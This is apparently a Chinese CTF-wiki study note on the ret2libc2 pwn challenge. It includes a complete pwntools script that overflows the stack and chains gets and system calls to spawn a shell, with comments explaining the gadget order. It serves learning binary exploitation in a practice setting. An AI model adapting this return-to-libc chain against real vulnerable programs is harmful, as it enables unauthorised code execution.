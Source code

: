

该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。

````python
from pwn import *
p=process("./ret2libc2")

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080

payload=flat([b'a'*112,gets_plt,pop_ebx,buf2,system_plt,b'b'*4,buf2])
#来梳理一下上行代码的执行顺序
#1.首先栈溢出先覆盖完ebp，然后覆盖函数返回值为gets_plt
#2.执行gets_plt，将buf2作为第一个参数，执行完后会ret，从而执行pop_ebx处的代码
#pop_ebx是为了平衡堆栈，用来把用完的buf2给弹出堆栈，这样ret的时候能正确指向system函数
#3.执行system_plt函数，4字节垃圾数据作为假的返回地址，buf2作为第一个参数

p.sendline(payload)

p.interactive()
````



![image-20250217001418893](./ctf-wiki-pwn-learning.assets/image-20250217001418893.png)

